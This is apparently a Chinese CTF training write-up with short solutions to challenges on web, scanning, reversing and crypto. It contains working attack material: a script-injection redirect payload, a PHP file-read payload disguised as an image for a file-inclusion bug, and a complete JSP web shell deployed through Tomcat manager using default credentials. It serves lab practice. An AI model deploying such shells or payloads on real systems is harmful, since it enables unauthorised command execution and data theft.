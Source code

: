 ## QR Code

打开就能看到二维码，然后用PS把左下角补上（一个方框）

## calculator

nc连上，发现要计算一道很长的数学题，果断用python脚本

```
from pwn import *
import numexpr

io = remote('10.214.160.13', 11002)
# print(io.recvuntil('='))
eq = ''
while not eq.startswith('AAA'):
    eq = io.recv()
    eq = eq.strip()
    print(eq)
    print(eq[0])
    if eq[0].isdigit():
        re = numexpr.evaluate(eq.split('=')[0])
        print(re)
        io.sendline(str(re))
# io.interactive()
```

## linkedlist

首先要计算一个字符串的md5，可以上[这个网站](https://www.md5hashgenerator.com/)，然后我们得到
![](imgs/memcache.png)

然后执行python脚本得到flag
```
from pymemcache.client.base import Client

client = Client(('10.214.160.13', <port>))
result = client.get('start')
while result != '1':
    print(result)
    result = client.get(result)
```

## EasyWeb

顾名思义，很简单的web题目，
第一关，用chrome的inspect功能或者view page source得到相应文件内含第二关网址
第二关，有个输入框和按钮，点击按钮出现“你从哪里来”，然后自动跳回之前的页面，这里我们在输入框中输入 `<script> window.location="3rd.php" </script>` 即可解决，进入第三关
第三关，有个按钮，点击进入一个页面，然而没有任何有用信息，这时想到看http的response，chrome inspect->network->看到response headers上有信息
![](easyweb.png)
最后，修改下button属性和script得到flag

## SQL Injuection

用sqlmap可以解出

## Scan

nmap解出一个端口，到指定网站，然后用DirBuster破解（不需要recursive)

## git leak

用githack解出

## dangerous flask

修改女神的value，进入traceback，得到flag

## php include

将
```
#!php
<?php
$html=file_get_contents('flag.php');
echo $html;
eval("echo %html");
?>
```
存为`evil.jpg`上传，然后首页的f改为图片上传得到的url，看下源码，就得到flag了


## War of tomcat

登录url/manager,发现tomcat管理登录，随便网上搜一下发现默认用户名密码都是tomcat，接下来写一个jsp改成war上传，我写的是这样子的：
```
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

我用的是`zip index.jsp webshell.war` 因为没有wsl下没找到`jar`这个命令


## flag403

TBC

## Reverse1

TBC

## apk01 baby

dex2jar + jd-gui 没有任何难度（

## Simple RSA

见[脚本](crack.py)

## Format String

TBC
